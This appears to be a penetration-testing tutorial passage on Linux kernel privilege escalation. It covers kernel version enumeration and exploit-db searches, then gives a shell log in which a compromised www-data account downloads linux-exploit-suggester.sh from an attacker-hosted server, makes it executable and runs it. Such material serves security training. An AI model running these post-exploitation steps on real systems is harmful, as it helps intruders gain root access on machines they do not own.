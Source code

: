 The kernel is a computer program at the core of a computer’s operating system and generally has complete control over everything in the system. It is the portion of the operating system code that is always resident in memory and facilitates interactions between hardware and software components. 

This critical function requires the kernel to have specific privileges; thus, a successful exploit will potentially lead to root privileges. 
```
cat /proc/version
uname -a
```
searchsploit "Linux Kernel version" or search in google site:exploit-db.com "Linux kernel version.

We can upload 'linux-exploit-suggester.sh' to the target machine using our python server and one it uploaded we can run it.

Quick download:
```
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
```
```
www-data@ubuntu:/tmp$ wget "http://10.23.30.54:83/linux-exploit-suggester.sh"
wget "http://10.23.30.54:83/linux-exploit-suggester.sh"
--2024-10-17 10:52:57--  http://10.23.30.54:83/linux-exploit-suggester.sh
Connecting to 10.23.30.54:83... connected.
HTTP request sent, awaiting response... 200 OK
Length: 90858 (89K) [text/x-sh]
Saving to: 'linux-exploit-suggester.sh'

100%[======================================>] 90,858       262KB/s   in 0.3s   

2024-10-17 10:52:58 (262 KB/s) - 'linux-exploit-suggester.sh' saved [90858/90858]

www-data@ubuntu:/tmp$ ls
ls
linux-exploit-suggester.sh
www-data@ubuntu:/tmp$ chmod +x linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
www-data@ubuntu:/tmp$ ls -al
ls -al
total 108
drwxrwxrwt  4 root     root      4096 Oct 17 10:52 .
drwxr-xr-x 22 root     root      4096 Sep  2  2020 ..
drwxrwxrwt  2 root     root      4096 Oct 17 10:36 .ICE-unix
drwxrwxrwt  2 root     root      4096 Oct 17 10:36 .X11-unix
-rwxr-xr-x  1 www-data www-data 90858 Oct 17 10:51 linux-exploit-suggester.sh
www-data@ubuntu:/tmp$ ./linux-exploit-suggester.sh
```





